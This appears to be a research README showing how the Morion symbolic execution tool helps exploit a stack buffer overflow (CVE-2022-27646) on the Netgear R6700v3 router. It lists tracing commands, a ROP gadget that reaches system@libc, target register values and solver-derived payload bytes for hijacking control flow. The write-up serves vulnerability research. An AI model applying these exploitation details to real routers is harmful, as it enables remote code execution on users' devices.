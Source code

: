 # Exploiting a Stack Buffer Overflow (CVE-2022-27646) on the Netgear R6700v3 with the Help of Symbolic Execution
## Morion Usage
--------------------------------------------------------------------------------
### Tracing
- R6700v3:
    ```
    ./circled.sh
    ```
- Morion:
    ```
    cp circled.init.yaml circled.yaml; gdb-multiarch -q -x circled.gdb
    ```
### Symbolic Execution
- Morion:
    ```
    morion_control_hijacker circled.yaml
    ```
## Exploitation Strategy
--------------------------------------------------------------------------------
- Symbolic execution shows that we have full control over registers `pc` and `r4-r11`.
- Find a code snippet (gadget) that calls the `system@libc` function and allows
  us to set the `r0` register (address of system command to execute).
  ```
  rop --grep "94a0"
  [...CUT...]
  0x0000c9ac : add r0, r4, r0 ; add r1, r4, r1 ; bl #0x9878 ; mov r0, r6 ; bl #0x94a0 ; mov r0, r6 ; bl #0x9854 ; mov r0, r7 ; add sp, sp, #0x10 ; pop {r4, r5, r6, r7, r8, sb, sl, pc}
  [...CUT...]
  ```
  - Candiate: `mov r0, r6; bl #0x94a0;` at address `0xc9b8`
  - Note: The above candidate code snippet is simple to achieve code execution, however
  does not smootly return and will therefore crash the targeted process.
- Generate exploit:
  - Make register `pc` become `0xc9b8` (address of `system@libc` gadget)
  - Make register `r6` become `0xbeffc114+34` (address within targeted stack buffer - constant since no ASLR)
    - Start address of targeted stack buffer: `0xbeffc114`
    - First 34 bytes (an MD5 sum plus `b"\n\x00"`) of targeted stack buffer are not symbolic (i.e. we do not control)
  ```
  from pprint import pprint
  ast = ctx.getAstContext()
  pc = ctx.getRegisterAst(ctx.registers.pc)
  r6 = ctx.getRegisterAst(ctx.registers.r6)
  pprint(ctx.getModel(ast.land([pc == 0xc9b8, r6 == 0xbeffc114+34])))
  {
    368: 0xbeffc284 (MODEL:fgets@libc:s+368):8 = 0x36,
    369: 0xbeffc285 (MODEL:fgets@libc:s+369):8 = 0xc1,
    370: 0xbeffc286 (MODEL:fgets@libc:s+370):8 = 0xff,
    371: 0xbeffc287 (MODEL:fgets@libc:s+371):8 = 0xbe,
    392: 0xbeffc29c (MODEL:fgets@libc:s+392):8 = 0xb8,
    393: 0xbeffc29d (MODEL:fgets@libc:s+393):8 = 0xc9,
    394: 0xbeffc29e (MODEL:fgets@libc:s+394):8 = 0x0,
    395: 0xbeffc29f (MODEL:fgets@libc:s+395):8 = 0x0
  }
  ```
- Put command string at adddress `0xbeffc114+34`

## Benefits of Using Symbolic Execution
--------------------------------------------------------------------------------
### Pros
- We learn about the vulnerability capabilities
  - What registers and memory areas we control and how
### Cons
- Semantic function modelling is hard, but required (here e.g. for `sscanf`)